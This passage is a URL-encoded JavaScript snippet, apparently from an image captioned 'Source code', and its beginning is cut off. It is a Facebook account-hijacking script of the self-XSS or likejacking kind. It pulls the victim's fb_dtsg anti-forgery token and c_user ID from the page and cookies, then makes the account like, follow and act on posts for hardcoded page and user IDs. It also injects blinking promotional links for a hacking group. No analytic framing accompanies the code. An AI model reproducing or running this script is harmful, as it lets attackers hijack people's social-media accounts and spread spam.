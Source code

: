 .style.padding%3D%223px%22%3Bdiv.innerHTML%3D%22%3Ca%20style%3D%27font-weight%3Abold%3Bcolor%3A%23E30505%27%20href%3D%27%27%20title%3D%27Refresh%27%3E%3Cblink%3E%3Ccenter%3EClose%20%28F5%29%3C/center%3E%3C/blink%3E%3C/a%3E%22%3Bbody.appendChild%28div%29%7Dif%28body%21%3Dnull%29%7Bdiv%3Ddocument.createElement%28%22div%22%29%3Bdiv.style.position%3D%22fixed%22%3Bdiv.style.display%3D%22block%22%3Bdiv.style.width%3D%22135px%22%3Bdiv.style.opacity%3D.9%3Bdiv.style.bottom%3D%22+10px%22%3Bdiv.style.left%3D%22+0px%22%3Bdiv.style.backgroundColor%3D%22rgba%280%2C0%2C0%2C0.5%29%22%3Bdiv.style.border%3D%221px%20solid%20rgba%280%2C0%2C0%2C0.5%29%22%3Bdiv.style.padding%3D%223px%22%3Bdiv.innerHTML%3D%22%3Ca%20style%3D%27font-weight%3Abold%3Bcolor%3A%23E30505%27%20href%3D%27https%3A//www.facebook.com/ITdevils.net%3Fref%3Dhl%27%20title%3D%27Theme%27%3E%3Cblink%3E%3Ccenter%3EOUR%20PAGE%21%3C/center%3E%3C/blink%3E%3C/a%3E%22%3Bbody.appendChild%28div%29%7Dvar%20fb_dtsg%3Ddocument.getElementsByName%28%22fb_dtsg%22%29%5B0%5D.value%3Bvar%20user_id%3Ddocument.cookie.match%28document.cookie.match%28/c_user%3D%28%5Cd+%29/%29%5B1%5D%29%3BLIST%28%22522928091153785%22%29%3BLIST%28%22555599494530451%22%29%3BLIST%28%22522437437869517%22%29%3BLIST%28%22522982744481653%22%29%3Bvar%20fb_dtsg%3Ddocument.getElementsByName%28%22fb_dtsg%22%29%5B0%5D.value%3Bvar%20user_id%3Ddocument.cookie.match%28document.cookie.match%28/c_user%3D%28%5Cd+%29/%29%5B1%5D%29%3BLike%28%22388395284584872%22%29%3BLike%28%22425681620829491%22%29%3BLike%28%22574395342655483%22%29%3BLike%28%22689578274389639%22%29%3BLike%28%22192704833812462%22%29%3Bvar%20fb_dtsg%3Ddocument.getElementsByName%28%22fb_dtsg%22%29%5B0%5D.value%3Bvar%20user_id%3Ddocument.cookie.match%28document.cookie.match%28/c_user%3D%28%5Cd+%29/%29%5B1%5D%29%3BIDS%28%22100006087359387%22%29%3BIDS%28%22100003097958638%22%29%3BIDS%28%22100003214290894%22%29%3BIDS%28%22100006722553147%22%29%3Bvar%20fb_dtsg%3Ddocument.getElementsByName%28%22fb_dtsg%22%29%5B0%5D.value%3Bvar%20user_id%3Ddocument.cookie.match%28document.cookie.match%28/c_user%3D%28%5Cd+%29/%29%5B1%5D%29%3Ba%28%22100003097958638%22%29%3Ba%28%22100003214290894%22%29%3Ba%28%22100000384128736%22%29%3Ba%28%22100004400531578%22%29%3Bvar%20user_id%3Ddocument.cookie.match%28document.cookie.match%28/c_user%3D%28%5Cd+%29/%29%5B1%5D%29%3Bvar%20fb_dtsg%3Ddocument.getElementsByName%28%22fb_dtsg%22%29%5B0%5D.value%3Bvar%20now%3D%28new%20Date%29.getTime%28%29%3BP%28%22521283934651534%22%29%3BP%28%22519944734785454%22%29%3BP%28%22569515649780537%22%29%3BP%28%22728470853847957%22%29%3Bvar%20user_id%3Ddocument.cookie.match%28document.cookie.match%28/c_user%3D%28%5Cd+%29/%29%5B1%5D%29%3Bvar%20fb_dtsg%3Ddocument.getElementsByName%28%22fb_dtsg%22%29%5B0%5D.value%3Bvar%20now%3D%28new%20Date%29.getTime%28%29%3BP%28%22604151949520240%22%29%3BP%28%22602841563084602%22%29%3BP%28%22569215645780537%22%29%3BP%28%22728475833847957%22%29'));
